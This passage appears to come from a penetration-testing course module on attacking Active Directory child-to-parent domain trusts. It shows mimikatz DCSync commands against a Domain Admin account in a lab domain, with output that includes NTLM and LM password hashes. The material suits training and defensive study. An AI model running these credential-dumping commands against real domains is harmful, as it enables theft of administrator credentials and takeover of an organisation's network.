 Finally, we can test this access by performing a DCSync attack against the parent domain, targeting the `lab_adm` Domain Admin user.

#### Performing a DCSync Attack

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```

When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL

[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
```